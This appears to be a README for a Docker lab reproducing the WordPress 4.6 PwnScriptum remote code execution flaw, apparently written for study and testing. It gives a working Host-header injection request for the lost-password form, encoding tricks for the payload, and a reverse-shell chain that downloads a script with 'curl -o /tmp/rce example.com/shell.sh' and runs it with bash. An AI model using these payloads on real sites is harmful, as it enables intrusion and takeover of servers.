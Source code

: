 # Wordpress 4.6 Remote Code Execution Vulnerability（PwnScriptum）

[中文版本(Chinese version)](README.zh-cn.md)

## Reference link

https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## Environment setup

```
docker-compose build
docker-compose up -d
```

Because Mysql initialization need a little time, so please wait. After initialization success, visit the site, set the administrator username and password to use it (the database is configured and not automatically updated).

## Expliot

Send the following packet, and you can see that `/tmp/success` has been successfully created:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

We need to meet the following requirements to exploit this vulnerability:

1. The executed command cannot contain some special characters, such as `:`, `'`,`"`, etc.
2. The command will be converted to lowercase letters
3. The command needs to use an absolute path
4. Need know an existing user username

In order to solve these problems, the vulnerability author came up with $`substr{0}{1}{$spool_directory}}` instead of `/`, using `${substr{10}{1}{$tod_log} }` method of replacing spaces.

However, there are still a lot of characters can't be used. So we need to put the command on the third-party website, and then download it to `/tmp` directory by `curl -o /tmp/rce example.com/shell.sh`.

Therefore, the expliot process as follows:

1. Write the exp of reverse shell and put it on a site. The exp have this following requirements:
 - the entire url's uppercase letters will be converted to lowercase, so the file path should not contain uppercase letters.
 - Access to this page can't be redirected because the parameter for follow redirect is `-L` (uppercase).

2. Splice the command`/usr/bin/curl -o/tmp/rce example.com/shell.sh`and`/bin/bash /tmp/rce`.

3. Convert the spaces and `/` in the command to `${substr{10}{1}{$tod_log}}` and `${substr{0}{1}{$spool_directory}}`.

4. Spliced the HTTP Host header:`target(any -froot@localhost -be ${run{command}} null)`.

5. Send these two packets in order.

Here is [expliot.py](exploit.py)，change `target` to your target site，change `user` to an exist user name，change `shell_url` to your payload site.

Execute to get the shell:

![](1.png)